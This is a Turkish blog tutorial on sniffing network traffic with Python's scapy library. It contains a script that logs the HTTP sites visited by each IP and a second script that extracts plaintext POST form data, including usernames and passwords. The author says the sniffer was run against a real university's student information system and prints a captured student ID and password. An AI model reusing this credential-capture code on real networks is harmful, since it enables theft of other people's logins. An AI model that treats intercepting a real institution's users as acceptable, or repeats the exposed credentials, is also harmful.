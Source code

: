 ```yaml
---
layout: post
title: Python ile Ağ Üzerinde İzleme Yapma
tags: [python, network, security, programming]
---
```


Merhaba. Bu yazıda Python ile basit bir şekilde ağ üzerinde nasıl izleme yapılırı anlatmaya çalışıcam. Yazıya giriş yapmadan önce bazı gereksinimler mevcut. Bunlardan birisi `scapy`

Teknik detaylara giriş yapmadan önce açıklamak gerekirse scapy, network tarafında özelleştirilmiş paketler üretmeye yarayan bir kütüphane.
<!--more-->
Kendisi açık kaynak kodlu bir yazılımdır. Scapy’nin diğerlerine göre farkı genişletilebilir oluşunda. Diğerleri demişken bunlardan benim bildikleri nmap ve hping var. İlla ki görmüşsünüzdür.

Ayrıca scapy interactive olarak ya da development kısmında da çalışabilir. Yani dilerseniz interactive shell ile çalışabilir ya da projenizde kütüphaneyi çağırabilirsiniz.

**scapy ve scapy-http Kurulumu**

Çok uzatmayalım. Ben işlemleri linux dağıtımı üzerinde gerçekleştirdim. Kurulum iki aşamadan oluşuyor. Dağıtımınızda pip olduğunu varsayarak şu işlemleri gerçekleştirelim:
Bash

```bash
sudo apt-get install python-scapy
sudo pip install scapy_http
```

Kurulum bu kadar Burada scapy_http adında bir kütüphane kullandık. Kütüphane yazarı Luca Invernizzi isimli abimizdir.

**scapy ile Ağ Trafiğinin İzlenmesi**

Yazı iki kısımdan oluşacak. Bu bir adresi kim yani hangi IP ziyaret ediyor ona bakacağız.

Öncelikle scapy ve scapy_http kütüphanesini dahil edelim:

```python
from scapy.all import IP, sniff
from scapy.layers import http
```

Şimdi gelen değerleri sniffleyeceğimiz bir metod yazalım. Bu methoddan dönen değerlere göre sniffing işlemi yapacağız.

Bu metodda TCP paketlerini ayıklayacağız. Ayıklama işlemi esnasında herhangi bir şekilde HTTP isteğine denk gelirsek ekrana yazdıracağız.

```python
def tcp_ayikla(paket):
    if not paket.haslayer(http.HTTPRequest):
        # Eğer paket herhangi bir HTTP isteği almıyorsa burayı atlayalım:
        return
    
    #http katmanından geçen istekler
    http_katmani = paket.getlayer(http.HTTPRequest)

    # IP adresi içeren katman
    ip_katmani = paket.getlayer(IP)
    print '\n{0[src]} IP adresinden {1[Method]} {1[Host]}{1[Path]} sitesine ziyaret'.format(ip_katmani.fields, http_katmani.fields)

# Ağ üzerinde dinleme işlemine başlıyoruz:
sniff(filter='tcp', prn=tcp_ayikla)
```

Çıktı olarak şöyle görüntüleriz:

![images/posts/sniff_url.PNG](images/posts/sniff_url.PNG)

Buraya kadar olan kısım şu bağlantı üzerinden alıntılandı

**scapy ile POST Verilerinin Alınması**

Gelelim zurna mıdır nedir onun şey dediği yere. Ağ üzerinde herkesin merak ettiği bir diğer konu da internet sitelerine girişte parolaların alınıp alınamayacağıdır.

Yukarıdaki yapıya aşırı benzer bir şekilde POST değerlerini alabilirsiniz. Bu işlem SSL olan sistemlerde işe yaramıyor. Bunu belirtmem gerekir. Eğer SSL konusunda merakınız varsa tintinweb reposuna bakmalısınız.

Post edilen verileri saf haliyla görebilmemizi sağlayan kodun temeli yukarıdaki ile aynı. Geri kalan kısım biraz programlama becerisi istiyor olay o kadar yani.

```python
from scapy.all import IP, sniff
from scapy.layers import http
 
 
def tcp_ayikla(paket):
    if not paket.haslayer(http.HTTPRequest):
        # Eğer paket herhangi bir HTTP isteği almıyorsa burayı atlayalım:
        return
    http_katmani = paket.getlayer(http.HTTPRequest)
    try:
        # Gelen istek POST mu?
        if str(http_katmani.fields["Method"]) == "POST":
            
            # Öyle ise dönen değeri böl ve bölünen değerin 13.sünü al
            # 13. değer form değerlerinin geldiği kısım oluyor
            data = str(http_katmani).split('\n')[13]
            # Form değerleri birleşikti bildiğiniz GET query gibi
            # Önce ampersand kaldırılıp, alt satıra geçme sağlandı
            #   txtUserName=Falan
            #   txtPassword=FalanPasswd
            # Ardından Gelen değerdeki %40, yerini @ ifadesine bıraktı.
            # Mail için önemli :)
            data = data.replace('&', '\n').replace('%40', '@')
            return data
    except:
        pass
 
# Ağ üzerinde dinleme işlemine başlıyoruz:
sniff(filter='tcp', prn=tcp_ayikla)
```

Bu ikinci kodun sonrasında çalıştırdığımızda aşağıdaki gibi bir çıktı ile karşılaşacağız. Dikkat ettiyseniz formda bulunan inputların name’leri ve value’ları bu ekranda görüntülenebilmekte

```text
txt_username=16612261
txt_password=cH10k1997GuVenL
```

Yukarıdaki kullanıcı adı ve parola saf haliyle karşımıza sunulmakta. Parola her ne kadar ben güvenliyim imajı verse de izlemek pek de zor olmuyor.

Bu işlemi bir üniversitenin Öğrenci Bilgi Sistemi üzerinde gerçekleştirdim. Umarım problem olmaz :)

![images/posts/post_sniffing.png](images/posts/post_sniffing.png)

Sanırım bir anlatımın daha sonuna geldik. Özetle: SSL kullanın